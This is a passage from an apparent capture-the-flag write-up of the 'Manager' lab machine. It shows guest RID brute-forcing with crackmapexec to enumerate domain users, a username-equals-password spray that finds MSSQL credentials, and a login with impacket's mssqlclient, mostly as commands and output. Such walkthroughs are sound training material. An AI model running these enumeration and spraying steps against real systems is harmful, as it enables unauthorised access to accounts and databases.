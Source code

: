 ```
S-1-5-21-4078382237-1492182817-2568127209-525 MANAGER\Protected Users (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-526 MANAGER\Key Admins (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-527 MANAGER\Enterprise Key Admins (Domain Group)
S-1-5-21-4078382237-1492182817-2568127209-1000 MANAGER\DC01$ (Local User)
```

As such, I tried to at least get a user list using `crackmapexec` and its RID brute force option, similar to the initial access steps for Rebound. 

```
$ crackmapexec smb manager.htb -u 'guest' -p '' --rid-brute 50000
<TRUNCATED>
SMB         manager.htb     445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         manager.htb     445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         manager.htb     445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)                                                                                           
SMB         manager.htb     445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)                                                                         
SMB         manager.htb     445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         manager.htb     445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         manager.htb     445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         manager.htb     445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         manager.htb     445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         manager.htb     445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         manager.htb     445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

### MSSQL Login --> Website Backup

There was one user that stood out obviously. Using `crackmapexec` again, we can try to brute force a username and password combination out for SMB and the MSSQL service. There were no credentials for the SMB service, but it did find one for the MSSQL server. 

```
$ crackmapexec mssql manager.htb -u users -p users 
<TRUNCATED>

MSSQL       manager.htb     1433   DC01             [+] manager.htb\Operator:Operator
```

Afterwards, I logged in using `mssqlclient.py`:

```
$ /opt/impacket/examples/mssqlclient.py 'operator:operator@manager.htb' -dc-ip dc01.manager.htb -windows-auth
Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```
